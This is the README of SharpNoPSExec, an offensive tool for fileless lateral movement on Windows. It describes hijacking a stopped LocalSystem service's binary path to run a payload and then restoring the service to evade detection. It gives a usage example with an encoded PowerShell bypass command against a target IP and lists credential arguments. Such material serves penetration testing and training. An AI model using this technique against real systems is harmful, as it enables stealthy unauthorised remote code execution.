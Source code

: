 # SharpNoPSExec
#### File less command execution for lateral movement.

SharpNoPSExec will query all services and randomly pick one with a start type disable or manual, the current status stopped and with LocalSystem privileges to reuse them.

Once it select the service it will save its current state, replace the binary path with the payload of your choise and execute it. 

After waiting 5 seconds it will restore the service configuration and you mostlikely will have your shell :) 

This tool is inspired on PSExec explanation from #OSEP for lateralmovement, while reading the exercise I realized I can perform the lateralmovement without touching disk and without creating a new service to avoid detection.

```
███████╗██╗  ██╗ █████╗ ██████╗ ██████╗ ███╗   ██╗ ██████╗ ██████╗ ███████╗███████╗██╗  ██╗███████╗ ██████╗
██╔════╝██║  ██║██╔══██╗██╔══██╗██╔══██╗████╗  ██║██╔═══██╗██╔══██╗██╔════╝██╔════╝╚██╗██╔╝██╔════╝██╔════╝
███████╗███████║███████║██████╔╝██████╔╝██╔██╗ ██║██║   ██║██████╔╝███████╗█████╗   ╚███╔╝ █████╗  ██║     
╚════██║██╔══██║██╔══██║██╔══██╗██╔═══╝ ██║╚██╗██║██║   ██║██╔═══╝ ╚════██║██╔══╝   ██╔██╗ ██╔══╝  ██║     
███████║██║  ██║██║  ██║██║  ██║██║     ██║ ╚████║╚██████╔╝██║     ███████║███████╗██╔╝ ██╗███████╗╚██████╗
╚══════╝╚═╝  ╚═╝╚═╝  ╚═╝╚═╝  ╚═╝╚═╝     ╚═╝  ╚═══╝ ╚═════╝ ╚═╝     ╚══════╝╚══════╝╚═╝  ╚═╝╚══════╝ ╚═════╝

Version: 0.0.1
Author: Julio Ureña (PlainText)
Twitter: @juliourena

SharpNoPSExec.exe --target=192.168.56.128 --payload=""c:\windows\system32\cmd.exe /c powershell -exec bypass -nop -e ZQBjAGgAbwAgAEcAbwBkACAAQgBsAGUAcwBzACAAWQBvAHUAIQA=""

Required Arguments:
--target=       - IP or machine name to attack.
--payload=      - Payload to execute in the target machine.

Optional Arguments:
--username=     - Username to authenticate to the remote computer.
--password=     - Username's password.
--domain=       - Domain Name, if no set a dot (.) will be used instead.

--service=      - Service to modify to execute the payload, after the payload is completed the service will be restored.
Note: If not service is specified the program will look for a random service to execute.
Note: If the selected service has a non-system account this will be ignored.

--help          - Print help information.
```

